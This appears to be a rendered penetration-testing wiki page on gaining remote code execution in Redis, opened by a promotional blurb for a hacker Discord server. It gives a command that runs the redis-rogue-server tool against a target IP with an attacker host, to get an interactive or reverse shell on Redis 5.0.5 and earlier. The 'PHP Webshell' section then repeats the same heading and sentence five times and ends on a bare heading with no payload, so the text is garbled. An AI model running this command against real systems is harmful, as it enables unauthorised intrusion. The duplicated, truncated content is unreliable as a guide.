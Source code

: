 <figure><img src="../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

Join [**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy) server to communicate with experienced hackers and bug bounty hunters!

**Hacking Insights**\
Engage with content that delves into the thrill and challenges of hacking

**Real-Time Hack News**\
Keep up-to-date with fast-paced hacking world through real-time news and insights

**Latest Announcements**\
Stay informed with the newest bug bounties launching and crucial platform updates

**Join us on** [**Discord**](https://discord.com/invite/N3FrSbmwdy) and start collaborating with top hackers today!

## Redis RCE

### Interactive Shell

[**redis-rogue-server**](https://github.com/n0b0dyCN/redis-rogue-server) can automatically get an interactive shell or a reverse shell in Redis(<=5.0.5).
```
./redis-rogue-server.py --rhost <TARGET_IP> --lhost <ACCACKER_IP>
```
### PHP Webshell

Info from [**here**](https://web.archive.org/web/20191201022931/http://reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html). You must know the **path** of the **Web site folder**:

### PHP Webshell

Info from [**here**](https://web.archive.org/web/20191201022931/http://reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html). You must know the **path** of the **Web site folder**:

### PHP Webshell

Info from [**here**](https://web.archive.org/web/20191201022931/http://reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html). You must know the **path** of the **Web site folder**:

### PHP Webshell

Info from [**here**](https://web.archive.org/web/20191201022931/http://reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html). You must know the **path** of the **Web site folder**:

### PHP Webshell

Info from [**here**](https://web.archive.org/web/20191201022931/http://reverse-tcp.xyz/pentest/database/2017/02/09/Redis-Hacking-Tips.html). You must know the **path** of the **Web site folder**:

### PHP Webshell
